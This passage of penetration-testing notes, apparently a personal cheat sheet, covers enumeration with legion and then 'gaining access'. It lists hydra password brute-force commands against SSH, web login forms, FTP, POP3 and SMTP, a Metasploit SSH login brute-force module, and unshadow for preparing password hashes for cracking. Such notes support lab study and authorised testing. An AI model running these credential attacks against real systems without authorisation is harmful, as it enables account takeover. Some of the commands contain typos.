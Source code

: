 - [legion](https://github.com/carlospolop/legion) - Automatic Enumeration Tool

    ```jsx
    sudo ~/tools/legion/legion.py
    options
    set host 10.0.0.210
    run
    ```
    
# Scanning done

# Gaining Access start

- hydra: bruteforce tool

    ```bash
    hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.101 -t 4 -v -f
    #-l is the user we want to attack, -P password file list, -t threads, -v verbose
    #it's better to intercept the login page with burp, check to see the correct username&password syntax and copy the exact failed message
    -#f   exit when a login/pass pair is found
    hydra -l hasamba -P ~/Desktop/test_passwords.txt 10.0.0.210 -s 8085 http-post-form "/login/:username=^USER^&password=^PASS^:F=Authentication failed" -VVV -t 6 -
    hydra OPT #will show us optional moduls for http and such
    hydra -U MODULE_NAME #will show module examples

    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V #Hydra FTP brute force
    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V #Hydra POP3 brute force
    hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V #Hydra SMTP brute force

    hydra -l username -P password-list <URL_TO_SERVER> http-post-form "<PATH-TO_LOGIN>:POST_REQUEST_FOR_LOGIN:FAILED_RESPONSE_IDENTIFIER"
    ```

- metasploit - can also bruteforce

    ```bash
    use auxialary/scanner/ssh/ssh_login
    options
    set username root
    set pass_file /usr/share...
    set rhosts
    set threads 10
    set verbose true
    run
    ```

- unshadow (kali) - combine both files and will insert the hashed passwords to the passwd file, so we can use this file with hashcat to maybe decrypt the password.

    ```bash
    unshadow PASSSWD_FILE SHADOW_FILE
    ```
